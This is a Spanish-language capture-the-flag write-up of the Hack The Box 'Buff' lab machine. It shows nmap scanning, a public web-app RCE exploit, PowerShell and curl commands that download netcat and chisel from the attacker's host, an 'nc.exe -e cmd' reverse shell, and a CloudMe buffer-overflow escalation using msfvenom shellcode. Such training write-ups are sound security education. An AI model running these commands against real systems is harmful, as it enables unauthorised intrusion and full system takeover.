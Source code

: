 #  BUFF MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/1.PNG)

## INDEX

- [[#ESCANEO Y ENUMERACION|ESCANEO Y ENUMERACION]]
- [[#EXPLOTACION|EXPLOTACION]]
- [[#ELEVACION DE PRIVILEGIOS|ELEVACION DE PRIVILEGIOS]]
		- [[#exportar winpeas result|exportar winpeas result]]


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 - v -n 10.10.10.198 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/2.PNG)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.10.198 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/3.PNG)

## EXPLOTACION

Veamos la pagina web desde el navegador:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/4.PNG)

indagando un poco en el apartado **contact** nos dice el gestor de contenido y la version:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/5.png)

si lo buscamos en google damos con el siguiente enlace:

[https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506)

lo copiamos y cuando lo ejecutamos nos da una sesion interactiva:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/6.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/7.png)

```bash
python exploit.py http://10.10.10.198:8080/
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/8.png)


con powershell nos vamos a pasar netcat y vamos a establecer una reverse shell:

```bash
powershell -c "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.16:8000/nc.exe', 'C:\xampp\htdocs\gym\upload\nc.exe')"
```

**Nota**

**tambien puedes hacerlo con curl**

```bash
curl http://10.10.14.16:8000/nc.exe -o nc.exe
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/9.png)

nos mandamos una reverse shell a nuestra maquina Kali con previa escucha:

```bash
nc.exe -e cmd 10.10.14.18 4242 #WINDOWS

nc -lvnp 4242 #KALI
```
nos ponemos desde la maquina kali a la escuhca en ese puerto y tenemos una sesion, podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/10.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/11.png)

## ELEVACION DE PRIVILEGIOS

vamos a pasarnos el **winPEAS** para ver como podemos escalar privilegios porque no se encontro nada especial:

```bash
powershell -c "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.16:8000/winPEASx64.exe', 'C:\xampp\htdocs\gym\upload\winPEASx64.exe')"
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/12.png)

lo ejecutamos y vemos que tenemos permisos especiales un en programa llamado **CloudMe** es decir lo podemos correr como el usuario system, vamos a buscarlo en google para saber que es:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/13.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/14.png)

si buscamos sobre que puerto opera ese servicio:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/15.png)

```bash
searchsploit cloudme
```

vemos vulnerabilidades de Buffer Overflow, vamos a usar este en particular:

```bash
searchsploit -m
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/16.png)

vamos a usar el 44470, lo descargamos en nuestro equipo local y examinamos:

debemos generar una shellcode y lo manda al puerto 8888 de mnera local:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/17.png)

vamos agenerar la carga util: 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=4545 -f c
```

y lo reemplaamos.

ahora aqui hay un problema, tenemos un exploit para explotar el puerto 8888 el servicio de cloud a traves de un buffer overflow, pero es una explotacion local, podriamos pasar el python a la maquina windows y luego el exploit para escalar privilegios, como tiene permisos totales entrariamos como system. Pero mas sencilo es hacer **port forwarding** que es apuntar un puerto del equipo victima a nosotros. Es decir redireccionar todo lo que pase por el puerto 8888 de la maquina windows para que pase por el puerto 8888 u otro de nuestra maquina kali, de esta forma si lo explotamos con el script desde nuestro equipo nos dara conexion al puerto 8888 de la maquina windows. 

Para ello usaremos chisel, puedes descargar los compildos para windows y linux [aqui](https://github.com/jpillora/chisel/releases/tag/v1.7.6) funciona con un cliente (en este caso la maquina windows) y un servidor (la maquina kali):

pasamos **chisel.exe** a la maquina windows:

```bash
powershell -c "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.16:8000/chisel.exe', 'c:\Users\shaun\Downloads\chisel.exe')"
```

montmos el servidor en la maquina kali:

```bash
chmod +x chisel
./chisel server -p 8008 --reverse
```

establecemos el cliente en windows:

```bash
chisel.exe client 10.10.14.16:8008 R:8888:127.0.0.1:8888
```

si vemos en la maquina kali ya tenemos corriendo algo en el puerto 8888:

```bash
lsof -i:8888
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/18.png)

ahora vamos a ejecutar el script con nuestra shellcode y nos colocamos a la escucha en el puerto que establecimos:

```bash
python 44470.py 
```

kali:

```bash
rlwrap nc -lvnp 4545
```

y tenemos una conexion reverse como system:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/19.png)

podemos ver las flags:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BUFF/images/20.png)

**NOTA MENTAL**

#### exportar winpeas result

revisar bien la salida del winPEAS.

Exportarlo con:

```bash
winPEAS.exe cmd > output.txt
```

pasartelo a tu equipo por netcat u otro medio y abrirlo con more para verlo mejor:

```bash
cat output.txt | more
```
